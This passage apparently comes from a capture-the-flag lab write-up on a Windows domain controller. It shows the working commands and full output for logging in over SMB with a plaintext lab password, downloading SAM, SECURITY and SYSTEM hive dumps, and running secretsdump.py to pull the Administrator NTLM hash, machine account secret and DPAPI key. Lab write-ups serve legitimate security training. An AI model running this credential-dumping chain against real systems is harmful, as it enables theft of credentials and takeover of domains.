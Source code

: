 Then I downloaded them using `smbclient.py`.
```
❯ smbclient.py baby.vl/Caroline.Robinson:Password1@babydc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use C$
# cd programdata
# ls
drw-rw-rw-          0  Tue Oct  7 10:17:28 2025 .
drw-rw-rw-          0  Tue Oct  7 10:12:26 2025 ..
drw-rw-rw-          0  Wed Nov 17 10:54:39 2021 Amazon
drw-rw-rw-          0  Sun Nov 21 20:41:29 2021 Application Data
drw-rw-rw-          0  Sun Nov 21 20:41:29 2021 Desktop
drw-rw-rw-          0  Sun Nov 21 20:41:29 2021 Documents
drw-rw-rw-          0  Wed Nov 17 10:54:39 2021 Microsoft
-rw-rw-rw-       3080  Tue Aug 19 21:24:18 2025 ntuser.pol
drw-rw-rw-          0  Wed Apr 16 17:39:09 2025 Package Cache
drw-rw-rw-          0  Wed Aug 20 16:37:10 2025 Packages
drw-rw-rw-          0  Fri Oct  4 23:42:24 2024 regid.1991-06.com.microsoft
-rw-rw-rw-      28672  Tue Oct  7 10:16:46 2025 SAM.save  <---
-rw-rw-rw-      32768  Tue Oct  7 10:17:28 2025 SECURITY.save  <---
drw-rw-rw-          0  Wed Nov 17 10:54:39 2021 SoftwareDistribution
drw-rw-rw-          0  Wed Nov 17 10:54:39 2021 ssh
drw-rw-rw-          0  Sun Nov 21 20:41:29 2021 Start Menu
-rw-rw-rw-   20791296  Tue Oct  7 10:17:10 2025 SYSTEM.save  <---
drw-rw-rw-          0  Sun Nov 21 20:41:29 2021 Templates
drw-rw-rw-          0  Wed Nov 17 10:54:39 2021 USOPrivate
drw-rw-rw-          0  Wed Nov 17 10:54:39 2021 USOShared
drw-rw-rw-          0  Fri Oct  4 22:53:10 2024 VMware
# mget *.save
[*] Downloading SAM.save
[*] Downloading SECURITY.save
[*] Downloading SYSTEM.save
#
```

I ran `secretsdump.py` to extract the secrets from the files locally.
```
❯ secretsdump.py -system SYSTEM.save -sam SAM.save -security SECURITY.save LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:0d43eb797b84b0b440fbcb0d89fea14f8458970482b891850f2d2106c7c08447f2aa725adc71c58241311e5cebf5b75d43f5b541a43d583665ea4669bee9d1910c4ee1f4703104fccf44eb3ac2b3bb31ed1712e4fca7e416d3bd561993cd88a9750b0a04466909e51660a3fec061e9f5a51e8e10fe8c2653cd610140611ea9cd2fc1f436829369373bfb51fc5214666a9073e7a8124f4a07414ee0a7e565f24745f2ec5f134e7b7dca577813e5e82867ea33b16a1797c51703731eb1e4273db597063d62cb7f1c1a0faae15ab06aadea286b87cf6f2d28127fb948113c6b57c92a97c1aad038f958404b27f6e6d6fba5
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3d538eabff6633b62dbaa5fb5ade3b4d
[*] DPAPI_SYSTEM
dpapi_machinekey:0xe620195f1a5e2d71842bbad9877d7c3ca8a31eda
```